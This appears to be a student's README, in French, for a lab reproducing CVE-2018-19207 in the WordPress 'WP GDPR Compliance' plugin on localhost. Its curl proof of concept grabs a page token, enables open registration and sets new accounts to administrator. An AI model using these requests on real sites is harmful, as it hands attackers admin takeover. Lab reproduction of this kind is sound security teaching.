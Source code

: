 # SDSI
Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers
```
docker-compose up
```

## Configuration de wordpress
1. Se connecter au site via `http://localhost:8000/`
2. Créer le compte administrateur (comme indiqué sur le site)
```Attention : la verification par email est obligatoire```
3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## PoC (WIP)

1. Se connecter sur le home du site

Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)
```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```
N.B. : vous pouvez aussi recuperer le token en consultant le code source de la page

2. Autoriser la création de nouveaux utilisateurs

Si on demande à s'enregistrer sur le site via la page `http://localhost:8000/wp-login.php?action=register`, on peut voir le message d'erreur suivant "User registration is currently not allowed."

Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
Paramètres: action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`,
on peut désormais créer un nouveau compte sur le site.

3. Obtenir les droits administateur

On souhaite desormais que les nouveaux comptes créés aient les droits administrateur par défaut.

Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
Paramètres: action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

4. Créer un compte via `http://localhost:8000/wp-login.php?action=register`, puis se connecter via `http://localhost:8000/wp-login.php` après vérification de l'adresse email.

Pour aller plus vite, vous pouvez vous connecter grâce au compte admin initial. Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator".

Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").
